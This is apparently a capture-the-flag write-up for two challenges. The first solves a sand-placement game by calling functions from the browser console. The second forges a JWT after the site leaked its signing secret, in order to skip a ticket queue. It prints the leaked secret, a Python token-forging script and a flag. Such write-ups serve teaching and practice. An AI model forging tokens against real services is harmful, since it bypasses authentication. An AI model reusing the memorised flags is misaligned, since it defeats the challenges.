 **Game object:**
* Place 7 grains of sand in the correct position and color according to the following information:

```javascript
const requiredGrains = 7;
const targetPositions = [
  { x: 367, y: 238, colorHue: 0 },     // red
  { x: 412, y: 293, colorHue: 40 },    // orange
  { x: 291, y: 314, colorHue: 60 },    // yellow
  { x: 392, y: 362, colorHue: 120 },   // green
  { x: 454, y: 319, colorHue: 240 },   // blue
  { x: 349, y: 252, colorHue: 280 },   // purple
  { x: 433, y: 301, colorHue: 320 }    // pink
];
```

**Solution:**

inject console :

```javascript
injectSand(367, 238, 0)
injectSand(412, 293, 40)
injectSand(291, 314, 60)
injectSand(392, 362, 120)
injectSand(454, 319, 240)
injectSand(349, 252, 280)
injectSand(433, 301, 320)
```

![image](https://hackmd.io/_uploads/r1N5TDzGle.png)

`flag: flag{6ff0c72ad11bf174139e970559d9b5d2}`

---

## Infinite Queue

In this challenge, we are provided with a ticket purchasing website but are provided with a `token` and in the `token` there is a `queue_time` variable used to return the time received, accordingly I made the token error to see the reaction and finally the system exposed `JWT_SECRET`, based on this I created a fake token to reduce the time.

![image](https://hackmd.io/_uploads/B1eZPyufMlg.png)

![image](https://hackmd.io/_uploads/rJGdkdMzxx.png)

`JWT_SECRET: 4A4Dmv4ciR477HsGXI19GgmYHp2so637XhMC`

create token: 

```python
import jwt
import time

secret = "4A4Dmv4ciR477HsGXI19GgmYHp2so637XhMC"

payload = {
    "user_id": "a@gmail.com",
    "queue_time": time.time() - 60, 
    "exp": 5348295616
}

token = jwt.encode(payload, secret, algorithm="HS256")
print(token)
```
